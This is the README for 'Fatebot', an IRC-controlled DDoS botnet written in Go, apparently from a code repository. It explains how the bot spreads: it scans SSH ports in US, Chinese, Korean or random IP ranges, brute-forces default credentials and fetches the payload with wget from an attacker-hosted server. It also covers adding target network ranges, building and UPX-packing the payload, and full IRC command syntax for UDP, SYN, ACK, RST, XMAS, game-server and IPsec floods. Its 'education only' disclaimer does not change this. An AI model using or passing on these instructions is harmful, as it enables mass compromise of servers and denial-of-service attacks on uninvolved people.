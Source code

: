 # Fatebot
This is my first <strong>IRC botnet</strong> for launch Denial of Service attack. Scan target are anything that run linux, open default SSH port, use default username and password. This bot are write in "Go" language. <strong>For education purpose only. Please test it in your lab, i create this for join university in the future not for attack anyone server with out any permission!!!</strong>

<br>Bozer\Bulldozer (old name is R4bin) the author of Fatebot, feel free to do anything with it. read more detail in license.</br>
<br><ins>If you have an issue please understand that some of them i can't answer because it will make me have a trouble with The cyber law.</ins></br>

<img src="assets/FateBot.png" alt="Fatebot" width="400" height="400">

# Infect
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA, CN, KR network or you can do a random scan or even you can add you own mods like russia or india isp mods, all of these it's up to you. This bot will brute-force attack to the target and use <strong>"wget"</strong> for download the payload from FTP server, so... please prepair your FTP server first it's very important for the infect process. <strong>(You can use any option any server type that can host the payload not maintionly to be an FTP server.)</strong>

# Add more network

(1) Create slice of your network.

	Example:
	
		var UK_netList = []string{
			"123.123", // 123.123.0.0/16
			"234.234", // 234.234.0.0/16
		}
	
	# since v0.6.0 will be use only 16bit of the ip range(I'm still confused about subnet mask lol).

(2) Then go down to the "ScanMode" function and add the case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			b.Scanner(UK_netList, false) //just config the first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of SSH port are open on which isp/org, what is the most used OS, version and etc.</strong>

# Attack
Attack feature will play around with <strong>volumetric</strong> mostly, but also have an <strong>application</strong> too.
All of the attack vectors will be <strong>random source port automatically, min and max of attack size will be 10 - 1450bytes.</strong>


<img src="assets/synflood.png" alt="synflood, dos example">

# Build payload

	chmod +x build.sh
	./build.sh <payload>
	
	#Tip: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
		
	Debian:
		apt install upx -y && upx -9 bin/<payload>
		
# Requirements
<ul>
	<li>IRC Server</li>
</ul>

<ul><li>IRC Backup Server <strong>(Optional)</strong></li></ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Payload Hosting Server</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer <strong>(Optional)</strong></li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>

# IRC Commands
	
	ATTACK VECTORS:
	
		?udp <srcIP> <dstIP> <port> <size>		Just a normal UDP Flood attack.
		?syn <srcIP> <dstIP> <port> <size>		Just a normal SYN Flood attack.	
		?ack <srcIP> <dstIP> <port> <size>		Just a normal ACK Flood attack.
		?fin <srcIP> <dstIP> <port> <size>		Flood TCP FIN packets to request close connection when target server are blocking a syn packet.
		?rst <srcIP> <dstIP> <port> <size>		Flood TCP RST packets to broke a TCP connection between client and target server.
		?sap <srcIP> <dstIP> <port> <size>		Flood by using TCP SYN+ACK Flags to the target server.
		?xmas <srcIP> <dstIP> <port> <size>		Flood TCP packets by using all of TCP Flags to target server.
		?vse <srcIP> <dstIP>				Flood TSource Engine Query request to the target game server that used valve source engine.
		?fms <srcIP> <dstIP>				Flood query payload to a FiveM game server(They use to host GTAV i guess. i'm only playing "Hell let loose" for now, lol).
		?ipsec <srcIP> <dstIP>				Flood payload to overwhelm system resources of VPN service and make IPSec VPN connections being affected.
	
	SCANNER:
	
		?scan <modes> <server>                  Scan SSH port on the network, Brute-Force attack to the target and install the payload by "wget".
	
			-cn		Scan on china network.
			-usa		Scan on the united state of america network.
			-kr		Scan on south korea network.
			-r		Scan with random ip.	
		
	?info				Get bot system information, for bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.
